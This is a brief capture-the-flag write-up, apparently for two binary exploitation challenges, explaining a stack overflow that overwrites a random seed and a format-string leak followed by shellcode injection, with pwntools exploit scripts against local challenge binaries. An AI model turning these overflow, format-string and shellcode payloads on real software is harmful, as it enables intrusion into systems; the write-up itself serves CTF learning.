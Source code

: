 ### 你猜我猜不猜

This challenge has Canary, NX, and PIE. We can't simple use ROP method because of the canary. However, the seed is on the stack as well. We can't reach the return address, but we can reach the seed integer.

1. Overflow 0x20 bytes and reach seed.
2. Replace the seed value.

Use the same seed, we can "predict" all the random numbers.

```python
from pwn import *
from ctypes import *

libc=cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
libc.srand(0)

r=process("./app")
payload='A'*(0x20)+p32(0)
r.sendlineafter("Your name:", payload)

for i in range(10):
    num=str(libc.rand()%6+1)
    r.sendlineafter("Please input your guess number:", num)
r.interactive()
```

### 过关斩将

The first level: input "east" and win.

The second level: use the format string in `printf(&format, &format)`, we can reveal the address.

The last challenge gives us the control to input some codes, gives a shellcode.

```python
from pwn import *

shell=asm(shellcraft.amd64.linux.sh(),arch="amd64")
r=process("./app")
payload="%9x,%9x,%9x,%9x,%9x,%35x%n"
r.recvuntil("secret[0] is ")
addr=str(int(r.recvuntil("\n")[:-1],16))
r.sendlineafter("What should your character's name be:","ailx10")
r.sendlineafter("So, where you will go?east or up?:","east")
r.sendlineafter("go into there(1), or leave(0)?:","1")
r.sendlineafter("'Give me an address'",addr)
r.sendlineafter("And, you wish is:",payload)
r.sendlineafter("Wizard: I will help you! USE YOU SPELL",shell)

r.interactive()
```

## Re
